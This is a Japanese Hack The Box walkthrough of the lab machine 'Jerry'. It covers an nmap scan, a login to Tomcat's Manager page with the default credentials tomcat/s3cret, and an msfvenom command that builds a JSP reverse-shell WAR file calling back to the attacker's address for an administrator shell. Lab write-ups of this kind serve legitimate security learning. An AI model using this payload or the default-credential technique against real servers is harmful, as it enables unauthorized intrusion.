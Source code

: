 # はじめに
Hack The Boxの攻略などを自分用にまとめたものです。
主に記録用として記しています。
現在のランクはHackerです。
間違っていることも多いかと思いますが、よろしくお願いします。
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">  
チートシートも公開しておりますが知識がまだまだ不足しているため、学習経過とともに身につけた内容などを随時更新していきます。
GitHub(ペネトレーションテスト用チートシート):
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# Jerry

<img width="619" alt="スクリーンショット 2020-07-22 17.17.37.png" src="https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/bcc07545-3471-6edf-5856-870c660a906c.png">


HackTheBox公式より
Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.

ジェリーはHack The Box上では簡単なマシンの一つですが、Apache Tomcatが公開されていることが多く、一般的または弱いクレデンシャルで構成されていることが判明しているため、現実的です。

# スキャン
Jerry(10.10.10.95)に対して、スキャンを行います。
まずnmapからスキャンを開始します。
## nmap 

```
nmap -sC -sV -oN valentine.nmap 10.10.10.95
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -oN...通常出力
- -Pn...ping送信をせずにスキャンを行う

```
kali@kali:~/htb$ nmap -sC -sV -Pn -oN jerry.nmap 10.10.10.95
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 01:30 EDT
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.71 seconds
```

この結果から、8080番ポートでApache Tomcatが使えることが分かります。

![スクリーンショット 2020-07-22 13.26.56.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6aef7b66-4ff6-076a-3708-7d417f69b2a9.png)

searchsploitを使って、tomcat 7.0.88を検索してみましょう。
![スクリーンショット 2020-07-22 17.22.33.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1e910a71-6ec1-9c64-4545-064625e57978.png)
このスクリプトを使用してみた結果、対象の脆弱性を悪用することはできませんでした。

先ほどの、Apache TomcatのManager Appを押下したところ、Basic認証が現れました。
適当に文字を入れてみると、エラーページが出てきます。

![スクリーンショット 2020-07-22 17.00.11.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/9383bc4b-9a32-afd7-814a-6fadacaaed85.png)
この中に
user:tomcat
password:s3cret
とあります。
これを使って、Basic認証を試してみましょう。

![スクリーンショット 2020-07-22 17.01.35.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c203b308-438d-4381-a14b-e01cde5e4975.png)

Managerページに入ることができました。
ちなみにuser:tomcat，password:s3cretはtomcat-users.xmlに記載されているデフォルトパスワードのようです。

下の方にスクロールして行くと、warファイルがアップロードできる箇所があります。
![スクリーンショット 2020-07-22 17.03.51.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/66d2b73d-6bb1-a376-3f3f-813e9833b6c7.png)
これを利用してreverse_shell接続できないか試してみましょう。

# 侵入
msfvenomを使ってreverse_shellするためのwarファイルを作成しましょう。

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f war > reverse.war
```

作成したreverse.warファイルをアップロードします。

netcatで通信を待ち受けておき、http://10.10.10.95:8080/reverse/にアクセスして発火させます。

![スクリーンショット 2020-07-22 17.05.58.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/880efd8a-b102-6973-89a3-3fa7e5fd9dcd.png)


![スクリーンショット 2020-07-22 17.06.12.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/7a4b4c23-99bf-3439-5c86-bf780bf97018.png)
シェルをゲットすることができます。
そしていきなり管理者権限でした。
![スクリーンショット 2020-07-22 17.14.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/593df714-bf09-fd33-d9ce-e1a6adb3b94d.png)
フラグは2つまとめて記載された"2 for the price of 1.txt"がありました。  
お疲れ様でした。
